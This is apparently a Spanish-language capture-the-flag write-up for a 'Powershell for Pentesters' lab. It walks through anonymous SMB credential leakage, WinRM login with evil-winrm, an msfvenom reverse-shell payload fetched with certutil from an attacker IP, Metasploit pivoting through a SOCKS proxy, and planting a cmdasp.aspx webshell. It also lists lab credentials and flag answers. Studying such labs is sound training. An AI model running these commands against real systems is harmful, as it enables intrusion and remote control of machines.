# Powershell for Pentesters CTF 1

<p align="center"> 

</p>

## Task 1: Extract sensitive credentials from an exposed resource on server.prod.local

The **server.prod.local** machine is leaking sensitive credentials via an exposed resource. Locate the first flag within this resource.

```
smbclient -L //server.prod.local/ -N
```

<p align="center"> 

</p>

```
smbclient //server.prod.local/Utilities -N
ls
get flag1.txt
```

<p align="center"> 

</p>

## Task 2: Obtain a PowerShell session on server.prod.local

Gain a PowerShell session on **server.prod.local**. Locate the second flag in the C drive.

En el ejercicio anterior nos apareció el archivo **start-service.ps1** 

<p align="center"> 

</p>

Comprobamos con la herramienta crackmapexec si es Pwn3d! las credenciales conseguidas **Jack**:**J@ck_567890#**

```
crackmapexec winrm server.prod.local -u 'Jack' -p 'J@ck_567890#'
```

<p align="center"> 

</p>

Esto significa que el usuario **Jack** pertenece el grupo local **Administrators** o **Remote Management Users** y con ello podemos usar la herramienta **evil-winrm**

```
evil-winrm -i server.prod.local -u 'Jack' -p 'J@ck_567890#'
cd /
ls
type flag2.txt
```

<p align="center"> 

</p>

answer: **e5b56e2f436e44bcb5f5069b3138f077**

## Task 3: Identify a misconfigured resource on web.prod.local

A sensitive resource on **web.prod.local** has misconfigured permissions and is not directly accessible from Kali. Locate the third flag within this resource.

```
ip a
```

<p align="center"> 

</p>

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.41.5 LPORT=4444 -f exe -o reverse.exe 
python3 -m http.server
```

Creamos el reverse.exe y lo compartimos . Luego, evil-winrm descargamos el archivo compartido pero no lo ejecutamos porque aun tenemos que preparar el puerto de escucha en metasploit.

```
certutil -split -urlcache -f http://10.10.41.5:8000/reverse.exe reverse.exe
```

En metasploit preparamos el puerto de escucha.

```
msfconsole -q
use exploit/multi/handler
set LHOST 10.10.41.5
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

En evil-winrm, ejecutamos el reverse.exe

```
./reverse.exe
```

<p align="center"> 

</p>

Esperamos unos segundos y ...

<p align="center"> 

</p>

Luego iniciamos sesión, y tenemos que comprobar si de esta sesión hay ping con **web.prod.local**. En mi caso, su ip 10.2.21.182

```
shell
powershell
ping 10.2.21.182
```

<p align="center"> 

</p>

Luego **control +z**, estaremos en la sesión de meterpreter y usaremos esta ip 10.2.16.0/20 por un calculo de red que hay, en terminos sencillos ponemos eso para acaparar a mas ips. 

```
run autoroute -s 10.2.16.0/20
background
use auxiliary/server/socks_proxy
set SRVPORT 9050
set VERSION 4a
exploit
jobs
```

<p align="center"> 

</p>

Ene este punto, antes que no teniamos ping a **web.prod.local** con todo lo anterior realizado, ya si que tenemos ping y prodiamos usar nmap para descubrir que puerto están abierto.

```
proxychains nmap web.prod.local -sT -Pn -sV -p-
```

<p align="center"> 

</p>

Tenemos los puertos abiertos **139**, **135**, **3389**, **80**, **445**

Como el puerto 139 y 445 están abierto usaremos smbclient con la cuenta anonymous que no hace falta contraseña para listar

```
proxychains smbclient -L //10.2.21.182/ -U anonymous
proxychains smbclient //10.2.21.182/wwwroot -U anonymous
```

<p align="center"> 

</p>

answer: **807a6f97a91e44d59555ca40efa24b92**

## Task 4: Compromise the web.prod.local machine

Compromise the **web.prod.local** machine and retrieve the fourth flag from the C drive.

Ahora tenemos que preparar para poder visualizar el puerto 80 de web.prod.local, haremos lo siguiente:

**navegador** - **settings** - **proxy** 

<p align="center"> 

</p>

```
http://web.prod.local/
```

Luego tenemos que trasladar la herramienta **cmdasp.aspx** por smb para obtener una **webshell**.

```
locate cmdasp.aspx
```

<p align="center"> 

</p>

Tenemos que estar situado donde se encuentre la herramienta **cmdasp.aspx**

```
proxychains smbclient  //10.2.21.182/wwwroot -U anonymous
put cmdasp.aspx
```

<p align="center"> 

</p>

Luego en el navegador

```
http://web.prod.local/cmdasp.aspx
type C:\\flag4.txt
```

<p align="center"> 

</p>

answer: **bf78b24c977f4f96995ce1eda89871e0**